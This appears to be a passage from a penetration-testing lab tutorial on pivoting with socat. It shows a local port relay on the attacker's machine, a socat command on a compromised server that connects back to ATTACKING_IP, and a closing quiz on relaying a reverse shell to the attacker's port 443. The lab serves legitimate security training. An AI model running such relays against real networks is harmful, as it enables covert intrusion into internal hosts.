 ```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the fork and reuseaddr options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:

```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork & 


```

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:

```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to localhost:8000 in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

- The request goes to 127.0.0.1:8000
- Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
- Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

The process is then reversed when the target sends the response:

- The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
- Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered

We have now achieved the same thing as previously, but without opening any ports on the server!

Finally, we've learnt how to create backgrounded socat port forwards and relays, but it's important to also know how to close these. The solution is simple: run the jobs command in your terminal, then kill any socat processes using kill %NUMBER:

![image](https://user-images.githubusercontent.com/89842187/131925066-81ce6fcc-c4f9-4686-bb88-fbce72aad7b5.png)



If your Attacking IP is 172.16.0.200, how would you relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory?

Use TCP port 8000 for the server listener, and do not background the process.
